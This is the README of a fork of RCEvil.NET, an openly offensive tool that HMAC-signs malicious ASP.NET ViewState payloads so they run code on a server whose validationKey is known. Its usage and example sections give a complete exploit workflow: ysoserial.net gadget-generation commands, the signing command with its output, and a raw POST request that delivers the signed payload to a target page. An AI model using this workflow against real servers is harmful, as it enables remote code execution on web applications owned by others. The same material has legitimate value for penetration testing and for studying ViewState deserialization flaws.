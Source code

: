 RCEvil.NET
===

RCEvil.NET is a tool for signing malicious ViewStates with a known validationKey. Any (even empty) ASPX page is a valid target. See http://illuminopi.com/ for full details on the attack vector.

### Original repository

Original RCEvil.NET repository: https://github.com/Illuminopi/RCEvil.NET

In this fork I just added compiled executable file.

### Prerequisites

1. Visual Studio Community
   * https://visualstudio.microsoft.com/vs/community/
2. Local installation of ysoserial.net:
   * https://github.com/pwntester/ysoserial.net

### Usage

1. Build your payload in ysoserial.net: 

```
ysoserial.exe -g TypeConfuseDelegate -f ObjectStateFormatter -o base64 -c "calc.exe"
```

2. Sign the payload using RCEvil.NET: 

```
RCEvil.NET.exe -u [URL] -v [VALIDATION_KEY] -m [DIGEST_TYPE] -p [YSOSERIAL.NET_PAYLOAD]
```

3. Direct the payload to the target ASPX page

### Examples

Generate base payload in ysoserial.net:
```
ysoserial.exe -g TypeConfuseDelegate -f ObjectStateFormatter -o base64 -c "calc.exe" /wEyxBEAAQAAAP////8...
```

Sign ysoserial.net payload with an HMAC using RCEvil.NET:

```
RCEvil.NET.exe -u /Default.aspx -v 000102030405060708090a0b0c0d0e0f10111213 -m SHA1 -p /wEyxBEAAQAAAP////8...

 -=[ ViewState Toolset ]=-

 URL: /Default.aspx  
 Digest Algorithm: SHA1  
 ValidationKey: 000102030405060708090a0b0c0d0e0f10111213  
 Modifier: 34030bca

 -=[ Final Payload ]=-

 %2fwEyxBEAAQAAAP%2f%2f%2f%2f8BAAAAAAAAAAwC...
```
Finally, send the HMAC-signed ViewState payload to the target:
```
 POST /Default.aspx HTTP/1.1  
 Host: 192.168.112.148  
 Content-Type: application/x-www-form-urlencoded  
 Content-Length: 3072

 __VIEWSTATE=%2fwEyxBEAAQAAAP%2f%2f%2f%2f8BAAAAAAAAAAwC...
```
